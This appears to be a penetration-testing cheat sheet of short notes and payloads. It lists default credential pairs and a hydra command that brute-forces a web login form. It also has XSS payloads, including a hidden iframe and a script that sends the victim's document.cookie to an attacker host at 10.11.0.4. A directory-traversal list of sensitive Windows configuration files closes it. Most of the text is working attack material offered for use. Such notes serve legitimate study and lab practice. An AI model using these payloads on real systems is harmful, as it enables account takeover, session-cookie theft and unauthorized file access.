 ```
admin:admin
admin:password
admin:administrator
admin:(name of box)
user:user
user:password
user:12345
guest:guest
root:root
(name of box):(name of box)
(default account):(name of application)
```

```
sudo hydra -l admin -P ~/rock.txt 192.168.152.52 http-post-form "/login.php:username=admin&password=^PASS^:I would try another combo. Hopefully, you are not trying these by hand."
```

### Common attacks

#####  Cross-Site Scripting (XSS)

send all the character to check if vulnurable
```
< > ' " { } ;
```

```
<{"=\_/="}> Hello ;')
```

```
<script> alert(window.location.hostname)</script>
```

mostly used to deliver client-side attacs

```
<iframe src=http://10.11.0.4/report height=”0” width=”0”></iframe>
```
stealing cookie
```
<script>
new Image().src="http://10.11.0.4/cool.jpg?output="+document.cookie;
</script>
```

#####  Directory triversal

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal

```windows
c:/boot.ini
c:/inetpub/logs/logfiles
c:/inetpub/wwwroot/global.asa
c:/inetpub/wwwroot/index.asp
c:/inetpub/wwwroot/web.config
c:/sysprep.inf
c:/sysprep.xml
c:/sysprep/sysprep.inf
c:/sysprep/sysprep.xml
c:/system32/inetsrv/metabase.xml
c:/sysprep.inf
c:/sysprep.xml
c:/sysprep/sysprep.inf
c:/sysprep/sysprep.xml
c:/system volume information/wpsettings.dat
c:/system32/inetsrv/metabase.xml
c:/unattend.txt
```